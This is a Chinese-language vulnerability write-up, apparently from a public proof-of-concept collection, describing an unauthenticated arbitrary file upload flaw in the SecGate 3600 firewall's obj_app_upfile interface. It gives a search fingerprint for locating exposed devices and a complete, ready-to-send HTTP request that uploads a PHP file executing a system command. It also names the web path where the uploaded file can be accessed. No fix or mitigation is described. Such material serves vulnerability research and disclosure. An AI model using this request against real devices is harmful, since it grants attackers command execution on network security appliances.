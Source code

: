 ## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

fid="1Lh1LHi6yfkhiO83I59AYg=="

## 漏洞复现

登录页面

![image-20230810090932372](./网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞.assets/image-20230810090932372.png)

出现漏洞的文件 webui/modules/object/app.mds

![image-20230810090941737](./网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞.assets/image-20230810090941737.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![image-20230810090957770](./网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞.assets/image-20230810090957770.png)

```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件

![image-20230810091011621](./网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞.assets/image-20230810091011621.png)